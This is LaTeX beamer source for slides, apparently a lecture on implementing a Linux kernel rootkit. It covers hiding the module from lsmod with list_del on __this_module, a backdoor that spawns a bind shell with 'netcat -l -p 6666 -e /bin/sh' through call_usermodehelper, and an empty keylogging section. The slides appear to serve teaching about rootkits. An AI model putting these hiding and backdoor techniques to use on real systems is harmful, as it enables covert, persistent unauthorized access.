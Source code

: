 \documentclass[]{beamer}
\newcommand{\shellcmdinline}[1]{\texttt{\footnotesize #1}}
\begin{document}
\section{Implementation}
\begin{frame}[t]{Outline}
\tableofcontents[currentsection]
\end{frame}


\subsection{Hiding}

\begin{frame}[t]{Hiding}
  \begin{itemize}
    \item Mask existence
    \begin{itemize}
      \item Kernel moduls not visible as a process
    \end{itemize}
    \item \shellcmdinline{lsmod}
    \begin{itemize}
      \item special exported symbol \texttt{extern struct module \_\_this\_module;}
      \item \lstinline{list_del(&(__this_module.list));}
    \end{itemize}
  \end{itemize}
  
\end{frame}


\subsection{Backdoor}

\begin{frame}[t]{Backdoor}
  \begin{itemize}
    \item Spaning userland process
    \begin{itemize}
      \item \shellcmdinline{netcat -l -p 6666 -e /bin/sh}
      \item \shellcmdinline{call\_usermodehelper}
    \end{itemize}
  \end{itemize}
  
\end{frame}


\subsection{Keylogging}
\end{document}
